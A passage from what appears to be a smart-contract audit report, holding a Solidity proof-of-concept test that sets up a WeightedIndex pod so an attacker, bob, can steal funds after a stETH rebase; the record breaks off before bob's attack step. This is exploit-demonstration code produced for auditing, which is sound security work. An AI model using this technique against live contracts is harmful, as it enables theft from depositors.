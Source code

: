 ##### Proof of Concept

```solidity
function test_StealWithWeightShift() public {
    // pretend we have stETH and USDC
    TestERC20 steth = new TestERC20();
    TestERC20 usdc = new TestERC20();

    IDecentralizedIndex.Fees memory fees = IDecentralizedIndex.Fees({
        burn: 0,
        bond: 0,
        debond: 0,
        buy: 0,
        sell: 0,
        partner: 0
    });

    address[] memory tokens = new address[](2);
    tokens[0] = address(steth);
    tokens[1] = address(usdc);

    uint256[] memory weights = new uint256[](2);
    weights[0] = 5;
    weights[1] = 995;

    vm.prank(deployer);
    index = new WeightedIndex(
        "yAudit",
        "YAT",
        fees,
        tokens,
        weights,
        partner,
        address(0), // paired lp token, will use DAI if null
        PEAS, // reward token
        V2_ROUTER,
        false // stake restriction
    );

    // seed alice
    usdc.mint(alice, 995e18);
    steth.mint(alice, 5e18);

    // alice bonds
    vm.startPrank(alice);

    usdc.approve(address(index), type(uint256).max);
    steth.approve(address(index), type(uint256).max);

    index.bond(address(steth), 5e18);

    vm.stopPrank();

    // let's say steth rebases to double
    steth.mint(address(index), steth.balanceOf(address(index)));

    // seed bob
    uint256 bobInitialUsdc = 1990e18;
    uint256 bobInitialSteth = 10e18;
    usdc.mint(bob, bobInitialUsdc);
    steth.mint(bob, bobInitialSteth);

    // bob attacks the pod by depositing the same amount of steth as the balance of the pool, to use the original weights
```